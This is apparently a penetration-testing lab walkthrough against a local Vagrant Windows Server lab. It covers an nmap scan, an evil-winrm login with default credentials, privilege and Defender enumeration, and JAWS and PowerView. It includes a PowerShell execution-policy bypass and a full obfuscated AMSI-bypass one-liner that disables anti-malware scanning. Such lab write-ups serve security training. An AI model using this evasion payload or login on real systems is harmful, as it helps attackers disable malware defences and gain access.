




# Nmap Scan

```bash
sudo nmap -sC -sV -T4 192.168.56.0/24
```

Result

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 08:10 +01
Nmap scan report for vagrant (192.168.56.30)
Host is up (0.00056s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: VAGRANT
|   NetBIOS_Domain_Name: VAGRANT
|   NetBIOS_Computer_Name: VAGRANT
|   DNS_Domain_Name: vagrant
|   DNS_Computer_Name: vagrant
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-22T07:11:23+00:00
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=vagrant
| Not valid before: 2025-02-20T18:13:02
|_Not valid after:  2025-08-22T18:13:02
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2025-02-20T10:15:06
|_Not valid after:  2028-02-20T10:15:06
|_http-title: Not Found
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
MAC Address: 00:0C:29:DF:D9:67 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.56.31 (192.168.56.31)
Host is up (0.00049s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=vagrant-10
| Not valid before: 2025-02-20T18:15:37
|_Not valid after:  2025-08-22T18:15:37
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=VAGRANT-10
| Subject Alternative Name: DNS:VAGRANT-10, DNS:vagrant-10
| Not valid before: 2025-02-20T10:17:36
|_Not valid after:  2028-02-20T10:17:36
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
| tls-alpn: 
|_  http/1.1
MAC Address: 00:0C:29:1E:03:D2 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.0000090s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
902/tcp  open  ssl/vmware-auth VMware Authentication Daemon 1.10 (Uses VNC, SOAP)
2200/tcp open  ici?
2222/tcp open  EtherNetIP-1?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)

Post-scan script results:
| clock-skew: 
|   0s: 
|     192.168.56.30 (vagrant)
|_    192.168.56.31
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (3 hosts up) scanned in 247.52 seconds
```

# Local Enumeration
we can see winrm port is open we can try

```bash
evil-winrm -i 192.168.56.30 -u 'vagrant' -p 'vagrant'
```

we are in

so lets start enumeration

from `whoami /priv` we can see interesting staff



continue our enumeration `whoami /groups` we can see we are part of `administrators` group



check localusers and groups



using `Get-MpComputerStatus` we can see that `RealTimeProtectionEnabled : True` and `IoavProtectionEnabled : True`


runing `systeminfo` we get some information about the systme
```
Host Name:                 VAGRANT
OS Name:                   Microsoft Windows Server 2019 Datacenter Evaluation
OS Version:                10.0.17763 N/A Build 17763
```

enough doing things manualy let use some automated tools

before start make sure to disable ps exxecute policy nad amsi anti-malware scan interface

```bash
# Bypassing the PowerShell Execution Policy
powershell -ep bypass

# AMSI stands for Anti-Malware Scan Interface and was introduced in Windows 10.AMSI provides increased protection against the usage of some modern Tools,
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```



using jaws-enum

```bash
powershell.exe -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

under services we can find some good staff
```
-----------------------------------------------------------
 Services
-----------------------------------------------------------

...
Spooler                                  Print Spooler                                                                      Running
...
...
TermService                              Remote Desktop Services                                                            Running
...
```

# Domain Enumeration

let use powerview 
```bash
. .\PowerView.ps1
```


